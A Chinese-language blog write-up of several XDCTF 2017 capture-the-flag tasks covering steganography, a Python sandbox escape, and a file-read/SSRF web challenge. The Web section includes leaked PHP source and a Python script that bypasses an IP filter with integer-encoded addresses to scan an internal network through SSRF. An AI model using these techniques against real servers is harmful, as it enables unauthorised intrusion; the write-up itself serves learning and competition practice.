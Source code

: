 ```yaml
---
layout: 
title: XDCTF 初赛部分题目WriteUp
date: 2017-10-04 13:27:27
tags:
	- CTF
	- XDCTF
	- Writeup
---
```


国庆假期水了下XDCTF的初赛，最后拿了个33名，没进决赛，不过学了不少东西，记一下
<!-- more -->
## Crypto

### 0x01 基础为王


从给的数据包中，可以找到两个分别名为flag-1 flag-2的图片，提取出来以后，使用Stegosolve进行一次XOR操作即可获得flag

![](https://image.mengsec.com/XDCTF-Crypto-1.png)


### 0x02 基础之Base64

给了长长的一大串base64，解密之后是一个C程序脚本，运行出helloword..

肯定不对啊，谷歌找资料，知道为base64隐写，网上有脚本可以直接进行解密

脚本如下

```
# -*- coding: cp936 -*-
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('data.txt', 'rb') as f:
	bin_str = ''
	for line in f.readlines():
	    stegb64 = ''.join(line.split())
	    rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
  		offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
    	equalnum = stegb64.count('=') #no equalnum no offset
    	if equalnum:
        	bin_str += bin(offset)[2:].zfill(equalnum * 2)
    	print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
```
直接运行即可



## Web

Web就做出来一个题，比较菜/(ㄒoㄒ)/~~

### 0x01 Web2

题目忘记截图了。

python用来执行系统命令的四种方法都行不通，故意引用一个不存在的模块会在错误报告中，找到绝对路径

	File "/codes/6707603a4141a84912289293db7dcc1f/a.py"

而且glob模块并没有被禁用，可以借助它来列目录


```
import glob
for filename in glob.glob(r''):
	print filename
```

从绝对路径开始，往下找，flag就在codes目录中，直接open读取输出即可获得flag


### 0x02 Web3
这个题目我没做出来，在此放上大表哥的flag

flag页面的URL为`http://web.ctf.xidian.edu.cn/web3/?file=flag.html`，推测为文件读取。

将flag.html改为index.php获得源码

```
php
<?php
/*//设置open_basedir
ini_set("open_basedir", "/home/shawn/www/index/");
 */

if (isset($_GET['file'])) {
	$file = trim($_GET['file']);
} else {
	$file = "main.html";
}

// disallow ip
if (preg_match('/^(http:\/\/)+([^\/]+)/i', $file, $domain)) {
	$domain = $domain[2];
	if (stripos($domain, ".") !== false) {
		die("Hacker");
	}
}

if( 	@file_get_contents($file)!=''){
echo file_get_contents($file);

}else{
```



在这里卡了很久，最后推测是ssrf，通过读取`/etc/hosts`文件得知内网ip为`172.18.0.3`。

由于正则表达式过滤了形如`127.0.0.1`的ip，使用整形ip来代替，扫描内网。

```
#-*- coding:utf-8 -*-
import socket
import requests
import urllib

for i in range(1, 256):
	ip = '172.18.0.%d' % i
	int_ip = int(socket.inet_aton(ip).encode('hex'), 16)
	#print int_ip
	r = requests.get('http://web.ctf.xidian.edu.cn/web3/?file='+urllib.quote_plus('http://%d' % int_ip))
	if 'flag' in r.text:
		print ip, int_ip
		print r.text
		break
```

172.18.0.2有flag


```
172.18.0.2 2886860802
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.13.5</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- do u see me? ha flag{0e34c0321b2b3048d399b41a8ffda584} -->
```
## Misc

### 0x01 邮箱

根据提示

小黑发现一个有趣的博客，于是注册了一个账号，你能找到他的邮箱地址吗？
注意：直接递交邮箱地址即可。

打开数据包后，查找含有 register 的数据流

	http contains "register"

![](https://image.mengsec.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-1.png)

分别进行追踪流操作，经过尝试可以获得flag

![](https://image.mengsec.com/XDCTF-Misc-%E9%82%AE%E7%AE%B1-2.png)